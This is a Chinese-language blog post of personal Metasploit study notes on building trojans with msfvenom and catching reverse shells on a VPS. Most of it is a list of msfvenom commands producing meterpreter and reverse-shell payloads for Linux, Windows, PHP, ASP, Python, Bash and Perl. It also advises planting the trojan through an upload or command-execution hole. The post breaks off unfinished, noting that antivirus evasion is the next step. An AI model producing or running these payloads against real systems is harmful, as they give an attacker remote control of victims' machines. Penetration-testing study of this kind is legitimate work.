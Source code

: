 ```yaml
---
title: metasploit 学习02
category: 
- 渗透测试
tags: 
- metasploit

---
```


## metasploit 学习02

**简介：**本地环境存在诸多限制，比如要发送payloaad反弹shell就需要一个公网ip。因此我选择将nsf搭建在vps上，具体教程请[参考](https://www.linuxidc.com/Linux/2019-01/156378.htm)：

**内容：**

利用msfvenom生成木马并且反弹shell。

首先介绍下msfvenon的基本用法：

![image-20210613005623957](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/image-20210613005623957.png)

列举出常用的生成shell的命令：

```sh
linux：
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

windows：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

PHP:
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

Python：
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash：
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl：
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

木马生成后只要想办法放到目标机器下，根据目标机器的具体情况选择合适的方式下载并执行你的木马即可，然后就可以在攻击机上获取到反弹回来的shell了：

**实例**

首先生成木马

![image-20210613005640652](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/image-20210613005640652.png)

然后在靶机上找到一个上传漏洞或者命令执行漏洞，下载或者上传我们生成的木马到靶机，这里我以命令执行为例：

上传后木马一直被杀软杀掉，考虑用免杀马，未完......

https://blog.csdn.net/qq_36119192/article/details/106348527

<!-- more -->